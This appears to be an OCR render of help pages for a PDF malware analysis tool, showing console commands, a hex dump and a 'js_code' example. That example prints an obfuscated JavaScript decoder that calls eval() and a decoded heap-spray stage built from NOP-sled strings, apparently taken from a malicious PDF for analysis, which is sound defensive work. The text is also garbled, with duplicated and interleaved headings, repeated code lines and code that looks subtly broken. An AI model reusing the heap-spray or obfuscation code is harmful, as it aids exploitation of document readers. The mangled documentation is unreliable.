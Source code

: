 78 9c 4b 2c 28 d0 4b cc 49 2d 2a d1 50 f2 48 cd   |x.K,(.K.I-*.P.H.|
c9 c9 57 08 cf 2f ca 49 51 54 54 d2 31 d6 b4 06   |..W../.IQTT.1...|
00 96 69 09 15                                    |..i..|

PPDF> decode raw 70 37 fl

app.alert("Hello World!!",3);
Usage: decrypt $password

Decrypts the file with the specified password
[Index](#showing-information)
<br />
### encode ###
[Index](#showing-information)
<br />
### encode ###
[Index](#showing-information)
<br />
### encode\_strings ###
[Index](#showing-information)
<br />
### encode\_[Index](#showing-information)
<br />
### exit ###
strings ###
[Index](#showing-information)
<br />
### filters ###
[Index](#showing-information)
<br />
### filters ###
[Index](#showing-information)
<br />
### js\_analyse ###
[Index](#showing-information)
<br />
### js\_beautify ###
<br />
### js\_code ###
If the Javascript code found in the object can be executed and generates another Javascript code stage all
the stages can be shown.
================== Original Javascript code ================== function nofaq(lgc){var ppwsd="";for(rxr=0;rxr<lgc.length;rxr+=2){ ppwsd+=(String.fromCharCode(parseInt(lgc.substr(rxr,5),19))); } eval(ppwsd); } nofaq("0D0A6452...");
================== Next stage of Javascript code ==================
	var i388Ag8 = 0x400000;
	var JKn0PaC = rpifVgf.length * 2;
	var NPvAvQ = i388Ag8 - (JKn0PaC + 0x38);
	var E79yB = unescape("%u9090%u9090");
	E79yB = lRUWC(E79yB, NPvAvQ);
	var fwdFfLgn = (NTLv7BP - 0x400000) / i388Ag8;
	for (var HEUAQgED = 0; HEUAQgED < fwdFfLgn; HEUAQgED ++ ){
	tX1PnUHy[HEUAQgED] = E79yB + rpifVgf;
  	var i388Ag8 = 0x400000;
	var JKn0PaC = rpifVgf.length * 2;
	var NPvAvQ = i388Ag8 - (JKn0PaC + 0x38);
	var E79yB = unescape("%u9090%u9090");